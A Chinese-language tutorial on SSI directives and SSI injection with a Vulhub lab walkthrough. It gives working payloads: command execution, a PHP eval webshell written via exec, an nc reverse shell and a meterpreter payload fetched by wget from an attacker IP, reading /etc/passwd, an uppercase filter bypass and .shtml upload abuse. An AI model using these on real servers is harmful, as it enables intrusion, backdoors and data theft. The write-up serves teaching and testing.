# SSI攻防技术简易刨析 - 先知社区

SSI攻防技术简易刨析

- - -

## 基本介绍

SSI(Server Side Includes，即服务器端包含)是一种用于网页开发的服务器端技术，它允许网页开发者在网页中插入SSI指令来动态地生成网页内容，这些指令可以用于包含外部文件、执行条件判断和循环等操作，从而简化网页开发和维护工作，它的强大之处就在于我们有时候只需要一条简单的SSI命令就可以实现整个网站的内容更新，例如：时间和日期的动态显示、执行Shell和CGI脚本程序等复杂的功能，SSI可以称得上是那些资金短缺、时间紧张、工作量大的网站开发人员的最佳帮手

## 语法格式

SHTML(Server Side Includes HTML)是一种扩展名为".shtml"的网页文件格式，它是一种结合了HTML和SSI(Server Side Includes)功能的文件类型，SHTML文件可以包含静态的HTML内容以及服务器端脚本代码以实现动态内容的生成和展示，在SHTML文件中SSI指令基本格式如下所示，需要特别注意的是其语法格式必须是以html的注释符<!--开头、且后面紧接#符号和SSI命令，它们期间不能存在空格

```plain
<!--#command param="value"-->
```

SSI中常见的几种指令如下所示：  
A、config命令  
基本描述：config命令主要用于配置和设置SSI的参数和选项  
语法格式：  
简易示例：

```plain
#设置错误页面
<!--#config errordocument="404 /errors/notfound.html" -->

#设置日期和时间格式
<!--#config timefmt="%Y-%m-%d %H:%M:%S" -->
```

B、include命令  
基本描述：include命令用于将其他文件的内容插入到当前网页中  
语法格式： 或  
简易示例：

```plain
#包含文件
<!--#include file="header.html" -->

#包含虚拟文件
<!--#include virtual="/includes/header.html" -->
```

C、echo命令  
基本描述：echo命令用于显示指定变量的值或其他内容  
语法格式：  
简易示例：

```plain
#显示变量值
<!--#set var="pageTitle" value="Welcome" -->
<!--#echo var="pageTitle" -->

#显示服务器环境变量
<!--#echo var="SERVER_NAME" -->
```

D、fsize命令  
基本描述：fsize命令用于显示指定文件的大小  
语法格式：  
简易示例：

```plain
<!--#fsize file="image.jpg" -->
```

E、flastmod命令  
基本描述：flastmod命令用于显示指定文件的最后修改时间  
语法格式：  
简易示例：

```plain
<!--#flastmod file="index.html" -->
```

F、exec命令  
基本描述：exec命令用于在服务器上执行指定的命令并将结果输出到网页中  
语法格式：  
简易示例：

```plain
<!--#exec cmd="ls -l" -->
```

G、for命令  
基本描述：for命令用于定义一个变量并在指定范围内循环执行相应的代码块  
语法格式：

```plain
<!--#for var="variable" start="start" end="end" -->
    <!--#echo var="variable" -->
<!--#endfor -->
```

简易示例：假设需要在网页中显示数字1到5，可以使用循环命令来实现

```plain
<!--#for var="i" start="1" end="5" -->
    <!--#echo var="i" -->
<!--#endfor -->
```

H、if命令  
基本描述：if命令用于根据条件判断来选择性地显示不同的内容  
语法格式：

```plain
<!--#if expr="expression" -->
    <!--#echo var="variable" -->
<!--#else -->
    <!--#echo var="other_variable" -->
<!--#endif -->
```

简易示例：假设有一个变量isLoggedIn用于判断用户是否已登录，根据该条件判断可以显示不同的欢迎信息

```plain
<!--#if expr="$isLoggedIn eq 'true'" -->
    <p>Welcome, user!</p>
<!--#else -->
    <p>Welcome, guest!</p>
<!--#endif -->
```

备注：SSI的语法虽然非常简单，但在使用中需注意以下几点

-   SSI大小写敏感
-   <!--与#之间无空格
-   value需写在引号中

## 服务启动

### IIS

在IIS(Internet Information Services)中配置SSI(Server Side Includes)可按照以下步骤进行操作：  
1、打开IIS管理器，您可以在Windows服务器上的"管理工具"或通过运行"inetmgr"命令来打开它  
2、在左侧的导航栏中展开服务器名称并选择您要配置的站点  
3、双击"处理程序映射"图标  
4、在右侧的"操作"面板中单击"添加模块映射"  
5、在"添加模块映射"对话框中配置以下设置  
请求路径：\*.shtml(或您希望启用SSI的文件扩展名）  
模块：ServerSideIncludeModule  
可执行文件：%windir%\\system32\\inetsrv\\ssinc.dll  
名称：任意指定一个名称，例如:"SSI"  
6、单击"确定"保存模块映射配置  
7、返回到IIS管理器主窗口，在站点上右键单击，选择"高级设置"  
8、在"高级设置"对话框中找到"默认文档"属性并确保您的默认文档列表中包含SSI文件(例如：default.shtml)  
9、单击"确定"保存更改

### Nginx

Step 1：首先我们要确保已安装Nginx的ngx\_http\_ssi\_module模块，这一点可以通过运行以下命令检查是否已启用该模块，如果在输出中存在"--with-http\_ssi\_module"，则说明模块已启用

```plain
nginx -V
```

Step 2：打开Nginx配置文件并如下几项

```plain
ssi on;
ssi_silent_errors off;
ssi_types text/shtml;
```

完整示例如下：

```plain
server{
    listen 80;
    server_name www.al1ex.com

    // 配置SSL
    ssi on;                 // 开启SSI支持
    ssi_silent_errors on;   // 指定是否在SSI处理过程中忽略错误,如果将其设置为on，当SSI命令无法执行或出现错误时，Nginx将继续处理页面而不中断并显示错误消息
    ssi_types text/html;    // 指定哪些响应类型将启用SSI功能,在此示例中我们将SSI应用于text/html类型的响应

    location / {
        root html;
        index index.html index.htm;
    }
}
```

### Apache

在Apache中配置SSI需要修改其配置文件，流程大致如下：  
Step 1：打开Apache的配置文件，确保在配置文件中存在以下行以启用mod\_include模块

```plain
LoadModule include_module libexec/apache2/mod_include.so
```

Step 2：在配置块中添加以下指令以启用SSI功能，随后保存并关闭配置文件，重新启动Apache即可

```plain
Options +Includes                   //启用服务器端包含
AddType text/html .shtml            //指定SSI文件的扩展名为.shtml，您可以根据需要使用其他扩展名
AddOutputFilter INCLUDES .shtml     //将输出过滤器设置为INCLUDES，以便在.shtml文件上应用SSI处理
```

## 漏洞介绍

造成SSI漏洞的主要原因在于当用户可以控制SSI指令的部分内容时，攻击者可以插入要执行的恶意代码，例如：如果开发者未对用户的输入进行适当的过滤处理，那么攻击者便可以差入类似""的指令来实现文件读取等各种恶意操作，同事也可以进行反弹shell，这一点我们在下面的文章内容中进行介绍

## 漏洞挖掘

### 利用条件

-   Web服务器端支持SSI
-   用户输入的内容，返回在HTML页面中
-   参数未进行输入过滤或者过滤不严格导致可绕过

### 相关业务

在很多业务中页面中一小部分在动态输出的时候经常会使用到SSI，常见的有以下几种：

-   访客IP
-   当前时间
-   定位信息
-   文件相关的属性字段

PS：网站存在.stm,.shtm和.shtml文件，那说明该网站支持SSI指令，由于后缀名并非是强制规定的，因此如果没有发现任何.shtml文件也并不意味着目标网站没有受到SSI注入攻击的可能

## 靶机示例

### 发现漏洞

这里我们以Vulhub中的一个靶机为例进行简易介绍，在前期的信息收集阶段我们通过目录扫描发现目标服务器上存在index.shtml文件，说明此站点支持SSI指令，基于此我们直接访问index.shtml，发现页面展示了一个SSI命令，这也在暗示我们这个网站存在SSI漏洞  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228133325-9f899848-a542-1.png)  
我们抱着试一试的心态对首页仅有的输入框进行Fuzzing测试

```plain
<!--#EXEC cmd="whoami" -->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228133410-b9f2b3cc-a542-1.png)  
随后我们看到页面中回显了执行的结果，从结果中我们可以看到这里的SSI注入点为第二个框，也就是Feedback，同时我们发现了一个ssi.shtml页面

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228133447-d06a5088-a542-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228133517-e206a1fc-a542-1.png)

### 普通查询

随后下面的测试我们在burpsuite中进行测试

```plain
#文档名称
<!--#echo var="DOCUMENT_NAME"-->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228133755-4025f224-a543-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228133812-4a5ce108-a543-1.png)

```plain
#当前时间：
<!--#echo var="DATE_LOCAL"-->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228133838-59c3628e-a543-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228133849-60c2d5e2-a543-1.png)

```plain
#IP地址信息
<!--#echo var="REMOTE_ADDR"-->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228133913-6e7b04b6-a543-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228133925-75ab4fc0-a543-1.png)

### 执行命令

当我们发现SSI漏洞时我们可以借助exec指令来实现命令执行(这里很多人可能会好奇为啥这里是EXEC,而不是exec，这是因为此靶机有一层检查，但是结合之前我们说的SSI对大小写敏感所以我们通过大写的方式实现注入利用)：

```plain
<!--#EXEC cmd="ls -al"-->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134153-ce454636-a543-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134331-086b92f2-a544-1.png)

### Webshell

由于上面查看的环境中文件以php结尾，故此我们可以判断目标环境为php环境，所以我们可以直接通过SSI漏洞来写入PHP木马文件实现getshell目的

```plain
<!--#EXEC cmd="echo '<?php eval(\$_POST[c]);?>' > a.php"-->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134402-1b4124a0-a544-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134414-2209060e-a544-1.png)  
随后我们进行一个列目录的操作

```plain
<!--#EXEC cmd="ls -al"-->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134443-3394e3ac-a544-1.png)  
随后可以看到a.php文件被上传到服务器端  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134500-3d736042-a544-1.png)  
然后我们直接使用蚁剑进行链接  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134520-49ccfc40-a544-1.png)  
随后获取到服务器端的shell权限  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134537-538ef120-a544-1.png)

### 反弹shell

既然SSI的指令可以用于执行系统命令那么我们有没有方法可以实现反弹shell呢？与其猜想，不如一试

```plain
#使用nc反弹shell
<!--#EXEC cmd="nc 192.168.204.135 9999 -e /bin/bash"-->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134641-79ba52c2-a544-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134651-800239b0-a544-1.png)  
但是发现并未反弹shell回来

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134712-8c2b9fb0-a544-1.png)

后来发现目标主机虽然有nc，但是属于阉割版本，没有-e参数，无法反弹  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134814-b116e604-a544-1.png)

### MSF反弹

首先生成pyton木马文件

```plain
msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.204.135 lport=4444 -f raw > shell.py
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134839-c00e84a0-a544-1.png)  
在MSF中建立木马监听

```plain
msfconsole
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 192.168.204.135
set lport 4444
exploit
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134933-e016698e-a544-1.png)  
随后使用python建立一个简易的http服务用于托管shell.py文件

```plain
python2 -m SimpleHTTPServer 1234
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228134957-ee656030-a544-1.png)  
然后构造SSI注入语句执行木马文件

```plain
<!--#EXEC cmd="wget http://192.168.204.135:1234/shell.py"-->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135027-009509fe-a545-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135037-06b5459c-a545-1.png)  
给文件赋予权限：

```plain
<!--#EXEC cmd="chmod 777 shell.py"-->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135101-14edf1b8-a545-1.png)  
随后执行木马文件

```plain
<!--#EXEC cmd="python shell.py"-->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135123-21d8146c-a545-1.png)  
收到请求记录  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135154-346afefa-a545-1.png)  
获取meterreter操作终端  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135329-6cdbd32c-a545-1.png)

## 另类利用

在测试任意文件上传漏洞的时候如果目标服务端可能不允许上传php后缀的文件，但是目标服务器开启了SSI与CGI支持，此时我们可以上传一个shtml文件并利用语法执行任意命令

### 环境演示

环境文件以php为后缀，所以我们可以了解到环境为PHP解析环境，随后我们尝试上传PHP文件来getshell  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135854-2eb80b14-a546-1.png)  
此时发现上传的PHP文件类型不支持  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135908-37104240-a546-1.png)  
此时我们可以尝试随意输入一个路径获取后端中间件信息，发现是Apache/2.4.25版本，此时考虑到php文件上传这一条路已经不通了，而后端是Apache，那么我们可以硬着头皮试试是否Apache存在SSI配置错误  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135942-4b35ee78-a546-1.png)  
随后我们更改shell.php文件为shell.shtml并更改其内容

```plain
<!--#exec cmd="ls -al" -->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228142022-2e9a592c-a549-1.png)  
随后上传文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228142043-3aea59d4-a549-1.png)  
紧接着会出现一个shell.shtml文件的连接，我们直接访问会得到其执行的结果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228142054-419ae79e-a549-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228142138-5bdb2dc6-a549-1.png)  
随后我们可以使用同样的方法上传文件获取到当前文件的路径并进行写一句话后门文件

```plain
<!--#EXEC cmd="echo '<?php eval(\$_POST[c]);?>' > a.php"-->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228142200-689f4114-a549-1.png)  
此时在服务器端我们可以看到文件被成功写入  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228142209-6e544898-a549-1.png)  
随后使用蚁剑直接进行连接即可实现GetShell  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228142222-75b37d48-a549-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228142231-7b8cc3be-a549-1.png)  
获取到服务器的shell权限后我们来查看一下具体的Apache的错误配置信息是怎么样子的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228142247-849a37f2-a549-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228142252-880390dc-a549-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228142257-8b106048-a549-1.png)  
上述配置是针对Apache HTTP Server的<directory>指令的设置，它指定了对/var/www/目录的访问权限和相关选项：</directory>

-   <Directory /var/www/>：该行指定了要配置的目录路径为 /var/www/。可以根据实际情况更改为其他目录路径
-   Options -Indexes +Includes：这行设置了目录的选项，具体解释如下：
    -   \-Indexes：禁止目录列表功能，当用户访问一个没有指定索引文件的目录时，网页服务器会显示该目录的文件列表，通过使用-Indexes选项，禁止显示目录文件列表，增加安全性
    -   +Includes：启用SSI(Server Side Includes)功能，SSI允许在网页中嵌入服务器端执行的指令从而实现动态内容的生成和插入
-   AllowOverride All：这行指定了允许使用.htaccess文件来覆盖目录配置，.htaccess文件是Apache服务器中用于在特定目录中修改配置的文件，通过设置AllowOverride All，允许在/var/www/目录中使用.htaccess文件来覆盖主配置文件中的设置

## 绕过思路

有时候我们在使用SSI注入命令时会发现exec等命令会被过滤处理，如果此时后端只是过滤了小写(通常也用小写)，那么我们可以考虑使用大写的方式来绕过，例如：

```plain
#使用小写时被屏蔽
<!--#exec cmd="cat /etc/passwd" -->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135401-800eade8-a545-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135426-8ee33546-a545-1.png)

```plain
#使用大写实现绕过
<!--#EXEC cmd="cat /etc/passwd" -->
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135451-9de5bbc2-a545-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231228135500-a369b346-a545-1.png)

## 防御措施

-   如果不使用SSI服务则关闭服务器SSI功能
-   过滤相关SSI特殊字符(`<,>,#,-,",'`)
